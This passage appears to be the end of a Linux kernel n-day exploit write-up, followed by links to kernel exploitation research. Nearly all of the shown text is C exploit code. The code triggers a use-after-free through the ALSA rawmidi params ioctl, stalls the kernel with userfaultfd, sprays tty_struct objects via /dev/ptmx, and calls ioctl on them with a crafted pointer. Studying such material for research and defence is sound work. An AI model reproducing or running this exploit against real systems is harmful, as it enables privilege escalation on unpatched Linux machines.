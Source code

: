 ```c
    args.size = 0x18 + 0x8;
    args.fd= fd3;

    /* Blocking before object created by size 1024 in userfault */
    pthread_create(&thread[5], NULL, (void *) trigger_userfaultfd, &args);
    puts("[+] Triggering userfaultfd");

    /* Deleting before object created by size 1024 generating an UAF */
    srp.buffer_size = 90;
    err = ioctl(fd3, SNDRV_RAWMIDI_IOCTL_PARAMS, &srp);

    puts("[+] Deleting before object created by size 1024 generating UAF");

    if (err < 0)
    {
        perror("[-] ioctl");
        exit(0);	
    }

    int spray[256];

    /* tty_struct spray */
    for(int i = 0; i < 256; i++)
    {
        spray[i] = open("/dev/ptmx", O_RDONLY | O_NOCTTY);

        if(spray[i] < 0)
        {
            printf("[-] Failed open /dev/ptmx\n");
        }
    }

    puts("[+] Allocate tty_struct in kmalloc-1024");

    release_page_fault = true;

    while(release_page_fault == true);
    puts("[+] Page fault lock released");

    for(int i = 0; i < 256; i++)
    {
        ioctl(spray[i], 0, next - 8);
    }
}
```

<br/>
## References

- [https://syst3mfailure.io/wall-of-perdition/](https://syst3mfailure.io/wall-of-perdition/)
- [https://google.github.io/security-research/pocs/linux/cve-2021-22555/writeup.html](https://google.github.io/security-research/pocs/linux/cve-2021-22555/writeup.html)
- [https://h0mbre.github.io/PAWNYABLE_UAF_Walkthrough/#](https://h0mbre.github.io/PAWNYABLE_UAF_Walkthrough/#)
- [https://github.com/smallkirby/kernelpwn/blob/master/technique/tty_struct.md](https://github.com/smallkirby/kernelpwn/blob/master/technique/tty_struct.md)
- [https://blog.kylebot.net/2022/10/16/CVE-2022-1786/](https://blog.kylebot.net/2022/10/16/CVE-2022-1786/)
- [https://i.blackhat.com/Asia-22/Thursday-Materials/AS-22-YongLiu-USMA-Share-Kernel-Code.pdf](https://i.blackhat.com/Asia-22/Thursday-Materials/AS-22-YongLiu-USMA-Share-Kernel-Code.pdf)
- [https://1day.dev/notes/Linux-Kernel-n-day-exploit-development-CVE-2020-27786](https://1day.dev/notes/Linux-Kernel-n-day-exploit-development-CVE-2020-27786/)